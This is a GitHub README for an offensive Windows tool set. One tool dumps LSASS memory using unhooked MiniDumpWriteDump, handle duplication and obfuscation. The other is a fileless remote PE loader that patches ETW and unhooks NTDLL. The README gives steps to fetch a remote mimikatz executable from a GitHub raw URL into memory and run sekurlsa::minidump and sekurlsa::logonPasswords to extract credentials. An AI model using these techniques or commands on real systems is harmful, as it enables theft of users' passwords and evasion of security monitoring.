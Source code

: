 # DumpL-a-_PE_Loder

Dumping LSASS by Unhooking MiniDumpWriteDump by getting a fresh DbgHelp.dll copy from the disk , plus functions and strings obfuscation, duplicate lsass handle from existed processes.
Download and Run the MiniDump.exe ( It will create a dump file in tmp folder)

Loading Fileless Remote PE from URI to memory with argument passing and ETW patching and NTDLL unhooking.
Download and run the RemotePE.exe
Enter in the URI write the Portable Excutable file path ( https://github.com/0d1y/mirrordump/blob/main/mimi.exe?raw=true ) 
Mimikatz commands:
sekurlsa::minidump <dump file full path>
sekurlsa::logonPasswords 
  
